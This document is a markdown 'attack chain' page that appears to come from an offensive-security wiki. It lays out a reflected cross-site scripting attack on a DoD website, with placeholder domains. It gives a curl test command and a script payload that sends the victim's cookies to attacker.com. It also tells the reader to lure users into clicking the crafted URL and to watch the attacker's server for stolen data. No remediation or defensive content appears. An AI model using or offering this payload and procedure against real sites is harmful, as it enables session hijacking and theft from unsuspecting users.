

# Exploiting Cross-Site Scripting (XSS) Vulnerability via Malicious URL on DoD Website

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-xss-test]]

### Target Environment

- Target OS/Platform: Web application
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to the DoD website

### Initial Access Requirements

- Credential requirements: None (public-facing site)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Craft and Deliver Malicious URL
procedure: [[procedures/Demonstrating-XSS-via-Malicious-URL]]

**Objective**: Inject a malicious script into the website via a URL parameter to execute arbitrary JavaScript in the victim's browser, potentially stealing session cookies or modifying page content.

**Instructions**: Identify a vulnerable URL parameter on the DoD website that lacks proper input sanitization. Construct a payload such as `<script>alert('XSS')</script>` and append it to the parameter. For testing, use [[commands/curl-xss-test]] to send the request and observe if the script executes:

```bash
curl -G "https://dod-website.example.com/search" --data-urlencode "q=<script>alert('XSS')</script>"
```

In a real attack, trick a user into clicking the crafted URL, e.g., `https://dod-website.example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. Monitor the attacker's server for exfiltrated data.

**Expected Output**: The script executes in the browser, displaying an alert or sending data to the attacker's server.

**Success Indicators**:
- JavaScript alert pops up or network request to attacker's domain is observed
- Browser console shows script execution without errors

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious script via URL parameter
2. Demonstration of session information theft potential
3. Highlighting content modification risks on a high-value target

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
